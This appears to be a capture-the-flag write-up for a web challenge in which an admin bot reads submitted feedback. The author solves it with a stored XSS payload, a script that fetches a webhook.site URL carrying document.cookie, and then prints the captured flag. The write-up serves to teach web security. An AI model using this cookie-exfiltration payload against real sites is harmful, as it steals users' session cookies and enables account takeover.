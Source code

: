 ```yaml
---
title: "Your feedback is not appreciated"
description: "RISC intro2web challenge 4"
pubDate: "Aug 26 2025"
heroImage: "/hero/risc-index_Raaquilla.webp"
tags: ["cyber", "XSS", "ctf", "exploit"]
canonical: "https://writeups.urisc.club/web/4_your-feedback_is_not_appreciated/"
---
```


## Challenge description

NB: This is the challenge related to the admin bot

Yuri Nocashov has taken a deep interest in customer feedback, and will read all feedback forms submitted!

---

## Approach

So someone is viewing all the feedback, it's very likely this is a client side XSS attack.

Lets create a webhook and attempt to send it something through the feedback form.

If we go to <https://webhook.site> we can easily get a public webhook open.

### Javascript XSS implementation

```html
<script>
	fetch(`https://webhook.site/our-webhook-id?${document.cookie}`);
</script>
```

After sending the script as feedback, we can see an incoming requests to `https://webhook.site/our-webhook-id?flag=RISC{ex_ess_ess_is_easy_as_1_2_3_e78c1cda77704a884357eeffedb3d3e7}`

Our flag is:

```
RISC{ex_ess_ess_is_easy_as_1_2_3_e78c1cda77704a884357eeffedb3d3e7}
```
